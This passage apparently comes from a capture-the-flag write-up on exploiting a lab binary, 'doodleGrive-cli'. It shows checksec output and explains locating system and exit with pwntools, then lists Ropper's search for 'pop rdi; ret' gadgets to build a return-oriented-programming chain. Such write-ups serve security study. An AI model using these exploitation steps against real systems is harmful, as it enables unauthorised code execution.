 Because the binary has PIE disabled, this should be at the same place every time:

```

gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

I’ll also need the address of `system` (and `exit` if I want to be clean), and those are easily found with `pwntools` in Python by loading the binary (`elf = ELF("./doodleGrive-cli")`) and then referencing the addresses (`elf.sym.system` and `elf.sym.exit`).

Finally, I need two gadgets. In 64-bit, the first argument to `system` will be the string at the address in RDI. So I need a `pop $rdi; ret` gadget. I’ll also need a plain `ret` gadget for stack alignment.

[Ropper](https://github.com/sashs/Ropper) is a nice tool for this:

```

oxdf@hacky$ ropper -f ./doodleGrive-cli --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./doodleGrive-cli
0x000000000044734d: pop rdi; add eax, dword ptr [rax]; add byte ptr [rax - 0x7d], cl; ret 0x4910; 
0x00000000004569a0: pop rdi; call rax; 
0x00000000004569a0: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
0x00000000004675cd: pop rdi; idiv esi; jmp qword ptr [rsi + 0x2e]; 
0x0000000000436eb9: pop rdi; in al, dx; mov qword ptr [rdi - 0xc], rcx; mov dword ptr [rdi - 4], edx; ret; 
0x0000000000436cc9: pop rdi; in eax, dx; mov qword ptr [rdi - 0xb], rcx; mov dword ptr [rdi - 4], edx; ret; 
0x000000000042831d: pop rdi; jmp rax; 
0x000000000041935f: pop rdi; or byte ptr [rbx - 0x76fefbb9], al; ret 0xe281; 
0x0000000000410a40: pop rdi; or eax, dword ptr [rax]; syscall; 
0x0000000000436ae9: pop rdi; out dx, al; mov qword ptr [rdi - 0xa], rcx; mov dword ptr [rdi - 4], edx; ret; 
0x0000000000436919: pop rdi; out dx, eax; mov qword ptr [rdi - 9], r8; mov dword ptr [rdi - 4], edx; ret; 
0x0000000000436a15: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov byte ptr [rdi - 1], dl; ret; 
0x0000000000436961: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov dword ptr [rdi - 4], edx; ret; 
0x0000000000403a4b: pop rdi; pop rbp; ret; 
0x0000000000401912: pop rdi; ret; 

```
